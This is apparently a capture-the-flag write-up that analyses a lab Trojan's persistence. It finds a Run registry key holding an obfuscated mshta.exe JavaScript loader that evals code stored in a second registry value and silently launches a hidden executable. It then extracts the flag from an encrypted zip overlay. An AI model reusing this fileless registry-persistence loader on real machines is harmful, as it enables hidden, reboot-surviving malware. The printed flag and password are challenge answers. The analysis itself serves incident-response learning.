

# Persistance is Key



## Challenge

I downloaded a small free program and my PC started acting strange.
So I quickly deleted it again, but it didn’t help at all… Did I get a virus? 😱

Help! 😭 Why doesn’t restarting fix it?

[Download](https://nextcloud.haaukins.com/s/eeq2ApGWF6MSeXZ/download)

## Solution

### 1. Identifying the Persistence Mechanism

The first step in investigating why the issue persists after a reboot is to check standard autorun locations. The malicious autorun is defined in the registry here:
`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run`

Within this location, we find a key named `System32` containing a heavily obfuscated string designed to execute via Microsoft HTML Application Host (`mshta.exe`):

```shell
mshta.exe "javascript:var s1="HKCU\\";var s2="Software\\";var gfd="1";var s3="Microsoft\\";var s4="Windows\\";var s5="Shell\\";var s6="Bags\\";var s7=gfd+"\\";var s8="Desktop\\";var s9="Profile"+gfd;var a4fh4r = eval;xo6=new%20ActiveXObject("WScript.Shell");A8nnnngfg=xo6.RegRead(s1+s2+s3+s4+s5+s6+s7+s8+s9);a4fh4r(A8nnnngfg);close();"
```

### 2. Deobfuscating the Command

The script concatenates several strings to build a registry path and then uses `eval` to execute the contents of that path. When we decode and simplify the variables, the intermediate command looks like this:

```shell
mshta.exe "javascript:eval(new ActiveXObject('WScript.Shell').RegRead('HKCU\\Software\\Microsoft\\Windows\\Shell\\Bags\\1\\Desktop\\Profile1'));close();"
```

### 3. Locating the Payload

The deobfuscated command reveals that the script is reading *another* registry key to find its actual instructions:
`HKCU\Software\Microsoft\Windows\Shell\Bags\1\Desktop\Profile1`

Reading the value at this registry path gives us the true execution command and the path to the malicious executable: `C:\Users\windows\AppData\Roaming\discord\update.exe`.

If we bypass the secondary registry read entirely, the simplified execution command resolves to:

```cmd
mshta.exe "javascript:new ActiveXObject('WScript.Shell').Run('C:\\Users\\windows\\AppData\\Roaming\\discord\\update.exe', 0, false);close();"

```

### 4. Payload Analysis

Uploading `update.exe` to [VirusTotal](https://www.virustotal.com/gui/file/40277697dc6793717dc3c372f67946099dc72d76fb8a44234bf48e750058d2e1) reveals that the file is a Trojan.

When executed, the malware exhibits the following behaviors:

* Opens the Windows Calculator.
* Drops 3-5 `.txt` (Wsa1xVP.txt Y.txt frAQBc8.txt fvJcrgR.txt wTii.txt) files on the desktop with random names containing the following taunt:

```text
haha you can't delete me!
You -> 💀
Got ...HACKED!@1

```

Further structural analysis of `update.exe` reveals that the C/C++ executable is actually a bootloader stub containing an encrypted Zip archive within its overlay.

Returning to the secondary registry path (`HKCU\Software\Microsoft\Windows\Shell\Bags\1\Desktop\Profile1`), there is another key stored alongside the payload path named `Secret_password`. This key contains the string: `xSbRFPNuKpLeguYhiCAFcddbchSQMY`

### 5. Capturing the Flag

Knowing that `update.exe` contains an encrypted Zip overlay, we can extract it using 7-Zip and supply the `Secret_password` registry value as the decryption key.

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ 7z x update.exe

7-Zip 25.01 (x64) : Copyright (c) 1999-2025 Igor Pavlov : 2025-08-03
 64-bit locale=en_US.UTF-8 Threads:8 OPEN_MAX:1024, ASM

Scanning the drive for archives:
1 file, 2945900 bytes (2877 KiB)

Extracting archive: update.exe
--       
Path = update.exe
Type = zip
Physical Size = 2945900
Embedded Stub Size = 2833628

Enter password (will not be echoed): 
Everything is Ok

Size:       112174
Compressed: 2945900

```

Extracting the archive successfully decrypts the payload, revealing an image file named `flag.png`.

**Flag:** `DDC{M4gnific3nt-M4lwar3-R3mov4l}`

## Misc

Yeah, this took way too long, I even tried to reverse engineer the executable. Wow, file inside a file, well just what VirusTotal said (`DetectItEasy:   PE32   Archive: Zip (2.0) [encrypted,99.9%,1 file]`). I mean when you have solved the challenge but finding flag becomes impossible.
